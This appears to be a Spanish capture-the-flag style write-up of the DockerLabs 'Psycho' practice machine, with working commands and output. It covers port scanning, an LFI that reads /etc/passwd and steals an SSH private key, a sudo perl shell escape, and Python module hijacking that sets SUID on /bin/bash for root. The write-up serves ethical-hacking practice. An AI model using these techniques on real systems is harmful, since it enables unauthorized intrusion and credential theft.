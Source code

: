 ```yaml
---
title: Psycho
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-24
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-psycho/psycho_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing web
  - lfi
  - suid
  - sudo abuse
  - information gathering
  - web analysis
  - vulnerability exploitation
  - lateral movement
  - user pivoting
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.049 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.049/0.049/0.049/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///      Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ sudo nmap -sCV -p22,80 -vvv 127.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/psycho:-$ whatweb 127.17.0.2     
http://127.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Script, Title[4You]
```

---
## Web Analysis & Vulnerability Exploitation

Durante el análisis inicial de una página web estática, no se detecta contenido relevante.

![](assets/img/dockerlabs-writeup-psycho/psycho1_1.png)

Sin embargo, al inspeccionar el código fuente, se encuentra una línea peculiar fuera de las etiquetas HTML, `[!] ERROR [!]`. Esto sugiere que la página podría ser vulnerable a LFI, ya que errores de este tipo suelen revelar rutas accesibles o archivos cargados dinámicamente.

![](assets/img/dockerlabs-writeup-psycho/psycho1_2.png)

Enumero parámetros posibles en el sitio web, apuntando hacia la explotación de LFI.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ wfuzz -u http://127.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=404 -c -t 200 --hw=169
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000005155:   200        88 L     199 W      3870 Ch     "secret"
```

El parámetro vulnerable detectado es `secret`. Verifico la vulnerabilidad cargando el archivo `/etc/passwd`.

![](assets/img/dockerlabs-writeup-psycho/psycho1_3.png)

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ curl http://127.17.0.2/index.php?secret=/etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
```

Identifico la existencia del usuario `vaxei`. Aprovechando la vulnerabilidad, extraigo la clave privada del usuario `vaxei` desde su directorio `.ssh`

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ curl http://127.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa | sed '/<body>/d; /<\/body>/d; /<head>/d; /<\/head>/d'

/home/kali/Documents/dockerlabs/psycho:-$ chmod 600 id_rsa

/home/kali/Documents/dockerlabs/psycho:-$ ssh vaxei@127.17.0.2 -i id_rsa

vaxei@kali:~$ id
uid=1001(vaxei) gid=1001(vaxei) groups=1001(vaxei),100(users)
```

---
## User Pivoting

```terminal
vaxei@kali:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
luisillo:x:1002:1002::/home/luisillo:/bin/sh
```

El usuario `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin necesidad de contraseña.

```terminal
vaxei@kali:~$ sudo -l
Matching Defaults entries for vaxei on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User vaxei may run the following commands on kali:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Según la documentación de [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo), `perl` puede usarse para ejecutar comandos del sistema.

```terminal
vaxei@kali:~$ sudo -u luisillo perl -e 'exec "/bin/sh";'

$ id
uid=1002(luisillo) gid=1002(luisillo) groups=1002(luisillo)
```

---
## Privilege Escalation

```terminal
$ script /dev/null -c bash
```

El usuario `luisillo` puede ejecutar el script `/opt/paw.py` como cualquier usuario `(ALL)`, sin necesidad de contraseña.

```terminal
luisillo@kali:~$ sudo -l
Matching Defaults entries for luisillo on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

El archivo `/opt/paw.py` contiene varias funciones que simulan procesamiento de datos y cálculos inútiles.

```terminal
luisillo@kali:~$ cat /opt/paw.py
```

![](assets/img/dockerlabs-writeup-psycho/psycho2_1.png)

Sin embargo, en la función `run_command`, el script ejecuta un comando mediante `subprocess.run`. Este es un punto explotable ya que `subprocess.run` intenta ejecutar `echo Hello!`, pero no encuentra el archivo, causando un error.

```terminal
luisillo@kali:~$ sudo python3 /opt/paw.py
```

![](assets/img/dockerlabs-writeup-psycho/psycho2_2.png)

El script usa la librería subprocess desde el directorio `/opt/`. Si creó un archivo malicioso llamado `subprocess.py` en dicho directorio, Python lo importará debido a su ubicación en el mismo directorio que el script.

Esto permite reemplazar el comportamiento de la librería estándar con un código que escale privilegios.

```terminal
luisillo@kali:~$ cat /opt/subprocess.py 
import os

os.system("chmod u+s /bin/bash")
```

Se ejecuta el script original, lo que provoca que importe y ejecute el archivo malicioso `subprocess.py`.

```terminal
luisillo@kali:~$ sudo python3 /opt/paw.py
```

Después de ejecutar el script, los permisos del binario `/bin/bash` cambian para permitir su ejecución como `root`.

```terminal
luisillo@kali:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

```terminal
luisillo@kali:~$ /bin/bash -p
bash-5.2# id
uid=1002(luisillo) gid=1002(luisillo) euid=0(root) groups=1002(luisillo)
```
